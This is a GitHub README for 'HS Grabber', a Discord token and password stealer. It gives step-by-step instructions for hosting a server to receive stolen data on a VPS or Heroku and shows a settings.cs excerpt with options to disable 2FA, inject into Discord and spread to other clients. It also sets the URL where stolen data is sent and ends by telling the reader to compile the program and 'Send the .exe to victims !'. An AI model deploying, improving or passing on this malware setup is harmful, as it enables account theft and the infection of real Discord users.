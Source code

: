 # HS Grabber
An powerful discord token grabber / discord token stealer stole discord password, info, etc, same when you change password. [Need a screenshot ?](https://github.com/Stanley-GF/HS-Grabber#Some-screenshot-of-the-grabber)

- [-] 10 Star = video tutorial
- [-] 15 Star = auto builder

# How to use

## #1 : API Hosting

### Method 1 : (require a vps)

Open port 80

Install Apache2 : 
```
$ sudo apt-get update
$ sudo apt-get install apache2
```

Test server : 

```
$ curl urserverurl
```

Configure Firewall :
```
$ sudo ufw allow 'Apache'
```

Verify the change :
```
$ sudo ufw status
```

Install API :
```
$ git clone https://github.com/Stanley-GF/api.git
```

Configure port & ip in the main index.js
```
$ cd api
$ nano index.js
```

Configure webhook url : 
```
$ cd api/endpoints
$ nano index.js
```

Your API URL gonna be : 
https://your-vps-ip/api/v1/send (replace your-vps-ip by ur real vps ip, obviously)

### Method 2 : Heroku (the best for beginner)

* Start https://heroku.com
* Signup an account
* Create an app
* Fork https://github.com/Stanley-GF/api on your github account
* Go in endpoints -> index.js -> edit and replace the webhook url by your webhook url
* Go in https://dashboard.heroku.com/apps/ , click on your app, go in "deploy" category
* In deployment method, select Github, login in your github account by authorize OAuth thing -> in App Connected, type "api" and select your project
* Enable "Automatic Deploy"
* press on Deploy Branch
* your server url gonna be : https://your-app-name.herokuapp.com/api/v1/send (replace your-app-name by ur real app name, obviously)

## #2 : Your .exe

* Download src of this project
* Open project
* Go in settings.cs and configure option : 

```cs

public static bool disableMfa = false; // disable 2FA 

public static bool restartDiscord = true; // restart discord after injection

public static bool spread = true; // ALWAYS TRUE : (for infect client)

private static string serverurl = "https://your-app-name.herokuapp.com/api/v1/send"; // replace "your-app-name.herokuapp.com/api/v1/send" by your api url

public static string Url = "https://cors-anywhere2.herokuapp.com/" + serverurl; // don't tuch.
```

* Compile the project
* Go in `\HS-Grabber\HS-Grabber\bin\Debug`
* Send the .exe to victims ! 

# Some screenshot of the grabber

![yay](https://cdn.discordapp.com/attachments/797933407476777012/798145821203628052/unknown.png)
